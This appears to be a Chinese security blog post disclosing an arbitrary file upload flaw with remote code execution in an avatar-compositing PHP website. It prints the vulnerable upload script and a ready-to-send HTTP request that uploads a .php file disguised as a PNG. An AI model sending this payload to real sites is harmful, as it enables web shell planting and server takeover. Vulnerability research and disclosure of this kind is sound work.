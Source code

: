 #  某渐变头像合成网站系统存在任意文件上传漏洞(RCE)   
原创 Mstir  星悦安全   2025-02-07 04:36  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
源码介绍 : 渐变头像合成网站的操作简单便捷，用户只需上传自己的头像，选择喜欢的头像框，点击一键合成即可生成专属定制头像。网站提供了167种不同风格的头像框供选择，用户也可以自己添加素材。生成后的头像可以直接下载保存到手机上，还可以选择是否添加水印。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dJDu4wuekhNwp4icgnuQENicrlFHiaJQBPN8VvLEoSYxsYQ0yEnD8qGJEpWicDwYUzj5S1KdqJ5FHcsw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dJDu4wuekhNwp4icgnuQENiciblcyoeEelGkFh0MedPcErmEC9dU74ynlCOkONnnicHqMTQTr2kGtjPQ/640?wx_fmt=png&from=appmsg "")  
## 0x01 漏洞研究&复现  
  
    这类简单的源码，遂直接用自己写的自动化工具去审计了，目前已实现仅有5%误报率，自动验证并生成Payload及审计报告.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dJDu4wuekhNwp4icgnuQENicO1ZLjub2UsoicABc7bFYyAzuttZ9HbmLSW9ibPmCzvrbLBDpkvxfM59Q/640?wx_fmt=png&from=appmsg "")  
  
漏洞点位于 /uploadImage.php 通过$FILES函数获取上传的文件，并写入到 /uploads/ 目录中，过滤仅是简单的 MINE-TYPE 的验证，导致漏洞产生.  
  
```
<?phpheader('Access-Control-Allow-Origin: *');header('Content-Type: application/json');$uploadDir = __DIR__ . '/uploads';if (!is_dir($uploadDir)) {    mkdir($uploadDir, 0755, true);}$response = ['success' => false, 'message' => '', 'url' => ''];if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_FILES['image'])) {    $file = $_FILES['image'];    // 检查上传错误    if ($file['error'] !== UPLOAD_ERR_OK) {        $response['message'] = '上传过程中发生错误。';        echo json_encode($response);        exit;    }    // 验证文件类型    $allowedTypes = ['image/jpeg', 'image/png', 'image/gif'];    if (!in_array($file['type'], $allowedTypes)) {        $response['message'] = '仅支持JPEG, PNG和GIF格式的图片。';        echo json_encode($response);        exit;    }    // 验证文件大小    $maxSize = 5 * 1024 * 1024;    if ($file['size'] > $maxSize) {        $response['message'] = '文件大小不能超过5MB。';        echo json_encode($response);        exit;    }    // 生成唯一文件名    $fileExt = pathinfo($file['name'], PATHINFO_EXTENSION);    $uniqueName = uniqid('avatar_', true) . '.' . $fileExt;    $targetPath = $uploadDir . '/' . $uniqueName;    // 移动上传文件    if (move_uploaded_file($file['tmp_name'], $targetPath)) {        // 获取当前域名        $protocol = (!empty($_SERVER['HTTPS']) && $_SERVER['HTTPS'] !== 'off' || $_SERVER['SERVER_PORT'] == 443) ? "https://" : "http://";        $domain = $protocol . $_SERVER['HTTP_HOST'];        // 构建图片URL        $imageUrl = $domain . '/uploads/' . $uniqueName;        $response['success'] = true;        $response['message'] = '文件上传成功。';        $response['url'] = $imageUrl;    } else {        $response['message'] = '文件移动失败。';    }} else {    $response['message'] = '无效的请求。';}echo json_encode($response);?>
```  
  
  
    这里对于Payload的验证模式是基于本地验证的，能保证准确率，不必担心给出不准的Payload.  
  
Payload:  
  
```
POST /uploadImage.php HTTP/1.1Host: 127.0.0.1Content-Length: 199User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36Content-Type: multipart/form-data; boundary=----WebKitFormBoundarySVCSfotbAwRBzkeUAccept: */*Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Connection: close------WebKitFormBoundarySVCSfotbAwRBzkeUContent-Disposition: form-data; name="image"; filename="aaa.php"Content-Type: image/png<?php phpinfo();?>------WebKitFormBoundarySVCSfotbAwRBzkeU--
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dJDu4wuekhNwp4icgnuQENicu6r0Uf60PEyTjrj3yaY02f0TMG0jDxxQwkEWiaSBYhFfzVk5TUOfcRg/640?wx_fmt=png&from=appmsg "")  
## 0x04 公开交流群  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**头像合成源码关注公众号，发送 250207 获取!**  
  
  
  
  
**开了个星悦安全公开交流4群，🈲发公众号，纯粹研究技术，还会拉一些大佬，希望大家多多交流.**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dJDu4wuekhNwp4icgnuQENicHFAPBDGk7cjLLClF5JItNRMMia1tzrGwFiaP5HaLmx8yUaBEiaZa50C3A/640?wx_fmt=jpeg&from=appmsg "")  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
